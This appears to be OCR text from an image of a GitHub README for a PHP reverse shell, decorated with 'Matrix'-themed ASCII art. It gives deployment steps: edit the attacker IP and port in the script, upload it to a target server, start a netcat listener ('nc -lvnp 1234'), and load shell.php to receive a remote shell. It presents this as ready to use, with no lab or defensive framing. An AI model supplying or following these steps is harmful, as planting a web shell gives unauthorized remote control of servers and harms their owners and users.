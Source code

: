      Trace program: running                                                                                                                                                                                

           wake up, Neo...                                                                                                                                                                                 
        the matrix has you                                                                                                                                                                                 
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

Chage your script - 
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS

Upload to server! 

Start a listener on your machine - 
nc -lvnp 1234

Navigate to ip/shell.php

Enjoy!

